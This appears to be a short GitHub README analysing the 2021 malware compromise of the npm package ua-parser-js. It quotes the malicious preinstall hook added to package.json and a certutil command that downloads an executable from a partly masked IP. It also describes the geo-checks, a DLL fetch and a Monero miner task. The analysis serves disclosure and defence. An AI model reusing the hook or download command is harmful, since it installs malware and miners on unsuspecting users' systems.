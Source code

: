 # H1 ua-parser-vuln

## Data Sources:

Read the diff here: https://my.diffend.io/npm/ua-parser-js/0.7.28/0.7.29#d2h-701945

Virustotal: https://www.virustotal.com/gui/file/2a3acdcd76575762b18c18c644a745125f55ce121f742d2aad962521bc7f25fd/behavior/C2AE

CISA Announcement: https://us-cert.cisa.gov/ncas/current-activity/2021/10/22/malware-discovered-popular-npm-package-ua-parser-js

Therecord: https://therecord.media/malware-found-in-npm-package-with-millions-of-weekly-downloads/

## Brief overview
Package.json file has the line:
 ""preinstall": "start /B node preinstall.js & node preinstall.js"," added,  calls the new attack scripts.

File preinstall.js looks to determine Windows, mac, linux, and call the correct next file

### Linux
On the linux side: It checks the server IP, if in the RU/UA/BY/KZ geo, does nothing. 
Else, it pulls down  jsextention from a remote IP in the Latvia GEO

### Windows:
1. Pulls down jsextension.exe  (Server serving is not responding)
2. Tries to curl it down
3. If that doesn work, tries wget
4. If that doesnt work, tries certutil
    it runs “certutil.exe -urlcache -f http://159.XXX.XXX.XXX/download/jsextension.exe jsextension.exe
    
5. Then attempts to pull down create.dll from citation<redaction>.at
    Currently at a russian IP address block
6. Then adds the execute to tasklist , to connect to pool.minexmr.****

